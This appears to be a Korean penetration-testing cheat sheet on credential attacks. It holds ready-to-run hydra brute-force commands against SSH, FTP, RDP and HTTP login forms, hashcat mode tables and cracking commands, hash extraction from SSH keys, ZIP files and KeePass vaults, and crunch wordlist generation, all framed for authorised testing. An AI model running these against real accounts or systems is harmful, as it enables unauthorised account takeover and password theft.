

> 자격증명 공격은 크게 **온라인**(서비스에 직접 시도)과 **오프라인**(확보한 해시를 로컬에서 크래킹)으로 나뉩니다. 온라인은 계정 잠금·속도 제한을 의식해야 하고, 오프라인은 규칙·사전 선택이 성패를 가릅니다. 예시의 사용자·비밀번호·해시는 전부 플레이스홀더입니다.

## 개념



- **해시 타입 식별**이 먼저입니다. 타입을 모르면 hashcat 모드를 못 고릅니다.
- 온라인 공격은 **"조용함"**이 중요합니다 — 잠금 정책을 모른 채 대량 시도하면 계정을 잠가 버립니다.
- 크래킹은 "좋은 사전 + 규칙"이 무차별 대입보다 거의 항상 빠릅니다.

## 공격·우회 구문

허가된 범위에서만. 사용자·비밀번호·해시는 전부 예시입니다.

### 온라인 — hydra

| 상황 | 명령 |
|---|---|
| SSH | `hydra -l $USER -P pass.txt ssh://$TARGET` |
| SSH(비표준 포트) | `hydra -l $USER -P pass.txt -s 2222 ssh://$TARGET` |
| FTP | `hydra -L users.txt -P pass.txt ftp://$TARGET -t 16` |
| RDP | `hydra -L users.txt -p 'Password123' rdp://$TARGET` |
| HTTP POST 폼 | `hydra -l $USER -P pass.txt $TARGET http-post-form "/login:user=^USER^&pass=^PASS^:Invalid"` |

> 판단 포인트: HTTP 폼은 **실패 문자열**(`:Invalid`)을 정확히 잡아야 오탐이 없습니다. 먼저 수동 로그인 1회로 실패 응답을 확인하고 그 문자열을 넣습니다.

### 오프라인 — hashcat (주요 모드)

| 모드 | 해시 |
|---|---|
| `0` | MD5 |
| `100` | SHA1 |
| `1000` | NTLM |
| `5600` | NetNTLMv2 |
| `13100` | Kerberos TGS (Kerberoasting) |
| `18200` | Kerberos AS-REP |
| `13400` | KeePass |
| `22921` | OpenSSH 개인키 |

```bash
# 사전 + 규칙 (거의 항상 이 조합부터)
hashcat -m 1000 hashes.txt rockyou.txt -r rules/best64.rule

# 모드 번호를 모를 때 검색
hashcat --help | grep -i keepass

# 규칙 적용 결과 미리보기(크래킹 아님)
hashcat -r rules/best64.rule --stdout words.txt
```

### 오프라인 — john & 해시 추출

```bash
# 각종 포맷 → john용 해시 추출
ssh2john id_rsa > ssh.hash
zip2john secret.zip > zip.hash
keepass2john vault.kdbx > keepass.hash

# 크래킹
john --wordlist=rockyou.txt ssh.hash
john --show ssh.hash
```

> 판단 포인트: 개인키·압축파일·KeePass·오피스 문서는 전부 "추출 → 크래킹" 2단계입니다. 추출만 해 놓고 타입을 혼동해 모드를 틀리는 경우가 잦으니, 추출 해시의 접두사(`$sshng$`, `$keepass$` 등)로 모드를 확인합니다.

### 사전 생성 — crunch

```bash
# 패턴 기반(예: 접두사 + 숫자 3자리)
crunch 6 6 -t Pre%%% -o wordlist.txt
```

## 함께 보기

- [모의침투 작전 흐름](/notes/penetration-testing-operation-flow/)
- [Active Directory 도구 치트시트](/notes/active-directory-cheatsheet/)

## 참고 자료

- [hashcat Wiki — Hash modes](https://hashcat.net/wiki/doku.php?id=example_hashes)
- [OWASP: Credential Stuffing Prevention](https://cheatsheetseries.owasp.org/cheatsheets/Credential_Stuffing_Prevention_Cheat_Sheet.html)
- [MITRE ATT&CK: Brute Force (T1110)](https://attack.mitre.org/techniques/T1110/)
